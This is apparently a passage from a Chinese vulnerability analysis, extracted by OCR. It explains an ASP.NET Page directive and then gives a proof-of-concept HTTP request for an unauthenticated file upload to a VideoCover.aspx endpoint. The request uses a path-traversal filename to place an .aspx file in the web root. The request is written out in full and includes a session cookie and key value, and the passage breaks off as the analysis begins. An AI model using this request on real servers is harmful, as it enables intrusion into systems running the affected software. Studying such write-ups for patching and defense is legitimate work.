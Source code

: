 ```c\#
<%@ Page Language="C#" AutoEventWireup="true" CodeBehind="MyPage.aspx.cs" Inherits="MyWebApp.MyPage" %>
```

这是一个 ASP.NET Web 页面的指令（Directive），用于在页面中指定一些重要的属性和配置

解析如下：

-   **<%@ Page：** 这是指令的起始标记，用于定义页面的属性和配置。
-   **Language="C#"：** 指定服务器端代码使用的编程语言，这里是 C#。
-   **AutoEventWireup="true"：** 一个布尔值，表示是否启用自动事件绑定。当设置为 true 时，ASP.NET 将自动绑定事件处理程序。
-   **CodeBehind="MyPage.aspx.cs"：** 指定代码文件的相对路径。在这个例子中，代码文件名为 MyPage.aspx.cs，它通常包含页面的服务器端逻辑。
-   **Inherits="MyWebApp.MyPage"：** 指定页面的继承关系。这里，MyPage 页面继承自 MyWebApp.MyPage 类。Inherits 属性告诉 ASP.NET 使用指定类中的代码。

通过这个指令，ASP.NET 可以正确地处理页面，编译代码文件，然后将其与页面关联起来。这使得在 .aspx 页面中可以使用与 .aspx.cs 文件关联的服务器端代码

在一般的.NET代码中，我们需要特别注意 inherits（继承）部分。它会指向我们需要去找的 dll ，例如前面的示例可能指向的是 MyWebApp.dll ，在MyWebApp.dll中寻找MyPage

# 0x02 Poc—前台Nday上传

```php
POST /Tools/Video/VideoCover.aspx HTTP/1.1
Host: xxx
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insectre-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 1015 7) AppleWebKit/537.36(KHTML, like Gecko) Chrome/107.0.0.0 Safari 537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avifimage/webp,image/apng,*/*;q=0.8,application/signed-exchangev=b3;q=0.9
Accept-Encoding: gzip,deflate
Accept-Language: zh-CN,zh;g=0.9
Cookie: ASP.NET_SessionId=pgfnw0patx4kh0jsnpjgzcmq; PrivateKey=f09020eaf656f9cf5d9292d39c296d1c
Connection: close
Content-Type:multipart/form-data;boundary=----WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Length: 294

------WebKitFormBoundaryVBf7Cs8QWsfwC82M
Content-Disposition: form-data, name= "file";filename="/../../../AVA.ResourcesPlatform.WebUI/test.aspx"
Content-Type: image/jpeg

<%@Page Language="C#"%>
<%
Response.Write("test");
%>
------WebKitFormBoundaryVBf7Cs8QWsfwC82M--
```

根据Poc在根目录中 Tools/Video 下找到 VideoPath.aspx
